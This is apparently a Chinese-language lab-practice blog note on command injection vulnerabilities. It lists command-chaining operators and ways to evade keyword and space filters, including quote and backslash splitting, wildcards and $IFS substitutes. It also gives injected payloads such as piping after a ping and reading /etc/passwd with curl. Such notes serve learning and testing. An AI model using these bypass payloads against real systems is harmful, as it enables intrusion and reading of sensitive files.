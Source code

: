 ```yaml
---
title: 命令执行漏洞
date: 2022-01-21 09:28:24
tags:
      - Windows
      - Linux
      - 安全
      - 靶场练习
categories:
      - 安全
description:
keywords:
---
```


# 命令执行漏洞

有些地方让你使用命令

使用&,&&,|,||的过滤执行由于;在Linux种会被识别成空所以可以使用&;&



防止防火墙屏蔽

可以使用\',\\或者使用别的替换命令或是用正则

下面是例子:

> 如果他屏蔽了某些词可以使用`'`比如
>
> ping 127.0.0.1 | l's'
>
> 
>
> 还可以加`\`来进行绕过
>
> ping 127.0.0.1 | l\s
>
> 
>
> 如果屏蔽了cat还可以使用
>
> tac,head,tail,paste,more,less,nl(显示行号和cat -n类似),sort
>
> 
>
> 还可以使用来读取文件
>
> curl file:///etc/passwd
>
> 
>
> 屏蔽txt则
>
> 127.0.0.1| c'a't ./123.tx*
>
> 127.0.0.1| c'a't ./123.tx?(正则)
>
> 
>
> 屏蔽空格用下面的替代
>
> < <> %20 %09 $IFS$9 ${IFS} $IFS
>
>  
>
> echo常和>(写入),>>(追加)命令使用
>
> echo zxcvasdfgadf>111 echo加-e可以进行特殊字符处理
>
> 
>
> ```
> echo -e 处理特殊字符
> 
> 若字符串中出现以下字符，则特别加以处理，而不会将它当成一般文字输出：
> \a 发出警告声；
> \b 删除前一个字符；
> \c 最后不加上换行符号；
> \f 换行但光标仍旧停留在原来的位置；
> \n 换行且光标移至行首；
> \r 光标移至行首，但不换行；
> \t 插入tab；
> \v 与\f相同；
> \ 插入\字符；
> \nnn 插入nnn（八进制）所代表的ASCII字符；
> ```
>
> set /p="zxcvasdfavasdf">111不会换行

读取文件常用命令

>查看文件
>cat 123.txt
>屏蔽cat tac head tail等命令和'
>cat：从第一行开始显示内容，显示所有内容
>tac:和cat相反
>more:一页页查看内容
>less：和more类似
>head:查看头几行
>tail:查看后几行
>nl: 类似cat -n,显示行号
>taillf:类似tail -f
